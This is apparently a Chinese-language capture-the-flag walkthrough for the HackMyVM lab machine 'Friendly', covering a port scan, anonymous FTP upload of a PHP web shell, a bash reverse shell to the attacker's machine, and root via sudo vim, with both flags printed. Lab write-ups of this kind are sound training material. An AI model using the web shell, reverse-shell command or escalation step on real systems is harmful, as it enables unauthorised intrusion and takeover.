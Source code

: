 # Friendly

2025.02.22 https://hackmyvm.eu/machines/machine.php?vm=Friendly

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

ftp 允许匿名登陆，有一个文件 index.html 就是 apache 的默认主页，同时发现匿名用户有上传文件 777 权限，直接上传 php 一句话脚本，然后反弹 shell 获得权限：

```
<?php system($_GET[1]);?>

curl -G --data-urlencode '1=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40/shell.php
```

发现系统中有用户 RiJaba1 并且能读取 user flag:

```
www-data@friendly:/home/RiJaba1$ cat user.txt
b8cff8c9008e1c98a1f2937b4475acd6
```

并且 sudo -l 显示 (ALL : ALL) NOPASSWD: /usr/bin/vim 直接提权到 root：

```
sudo vim -c ':!/bin/sh'
```

经过寻找在这里找到了 root flag：

```
root@friendly:/# cat /var/log/apache2/root.txt
66b5c58f3e83aff307441714d3e28d2f
```
